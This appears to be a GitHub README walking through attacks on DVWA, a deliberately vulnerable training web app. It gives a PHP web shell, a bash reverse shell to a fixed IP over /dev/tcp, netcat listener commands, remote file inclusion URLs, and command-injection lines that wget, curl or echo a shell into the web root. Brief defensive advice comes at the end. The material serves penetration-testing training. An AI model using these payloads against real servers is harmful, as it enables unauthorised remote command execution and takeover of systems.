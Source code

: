 # DVWA Exploitation Project

This project demonstrates how to exploit various vulnerabilities in DVWA (Damn Vulnerable Web Application) to upload a PHP shell, gain remote access via a reverse shell, and execute commands on the target machine.

**DISCLAIMER: This project is for educational purposes only. Do not use these techniques on systems you do not own or have explicit permission to test.**

## Table of Contents
1. [Environment Setup](#environment-setup)
2. [Uploading a Shell via Remote File Inclusion (RFI)](#uploading-a-shell-via-remote-file-inclusion-rfi)
3. [Uploading a Shell via Command Injection](#uploading-a-shell-via-command-injection)
4. [Uploading a Shell Using the Echo Command](#uploading-a-shell-using-the-echo-command)
5. [Protection Against These Vulnerabilities](#protection-against-these-vulnerabilities)

## Environment Setup

Before starting, ensure you have the following tools and configuration:

- DVWA: Vulnerable host with adjustable security levels
- Kali Linux: Used to execute attacks from a virtual machine
- Netcat (nc): Tool for obtaining a remote connection
- PHP Shell: PHP script for executing commands, uploading, and deleting files on the target machine

## Uploading a Shell via Remote File Inclusion (RFI)

### Step 1: Prepare the PHP Shell

Create a simple PHP shell (`shell.php`) that allows remote execution of system commands:

```php
<?php
if (isset($_GET['cmd'])) {
    system($_GET['cmd']);
}
?>
```

Host this file on your own server (e.g., using a Python server):

```bash
python3 -m http.server 8000
```

### Step 2: Exploit the RFI Vulnerability

Use the following URL to inject the external file by exploiting the File Inclusion vulnerability in DVWA:

```
http://[DVWA_IP]/dvwa/vulnerabilities/fi/?page=http://[YOUR_IP]:8000/shell.php
```

### Step 3: Obtain a Reverse Shell with Netcat

Modify the `shell.php` file to open a connection to your machine:

```php
<?php
exec("/bin/bash -c 'bash -i >& /dev/tcp/172.20.10.14/1234 0>&1'");
?>
```

Set up a listener on your machine with Netcat:

```bash
nc -lnvp [PORT]
```

Navigate to the following URL in your browser to execute the shell:

```
http://[DVWA_IP]/dvwa/vulnerabilities/fi/?page=http://[YOUR_IP]:8000/shell.php
```

## Uploading a Shell via Command Injection

### Step 1: Exploit the Vulnerability

Use the command injection vulnerability in DVWA's IP input field for ping:

```bash
; wget http://[YOUR_IP]:8000/shell.php -O /var/www/html/shell.php
```

Or, if wget is not available:

```bash
; curl http://[YOUR_IP]:8000/shell.php -o /var/www/html/shell.php
```

### Step 2: Obtain a Shell via Netcat

Follow the same process as in the RFI method to set up a Netcat listener and connect to the uploaded shell.

## Uploading a Shell Using the Echo Command

If wget or curl are not available, use the echo command to write the shell code directly:

```php
; echo "<?php system(\$_GET['cmd']); ?>" > /var/www/html/shell.php
```

Access the shell via:

```
http://[DVWA_IP]/shell.php?cmd=ls
```

## Protection Against These Vulnerabilities

### a) Protection against Remote File Inclusion (RFI)

- Disable `allow_url_include` in php.ini
- Validate and filter user inputs rigorously
- Use whitelisting for accessible files

### b) Protection against Command Injection

- Use secure functions like `escapeshellcmd()` or `escapeshellarg()` to escape special characters in commands
- Never directly accept user inputs for system commands
- Use server-side alternatives like APIs to perform tasks instead of directly executing commands

**Remember: Always practice ethical hacking and obtain proper authorization before testing security vulnerabilities.**


Author: github.com/dgthegeek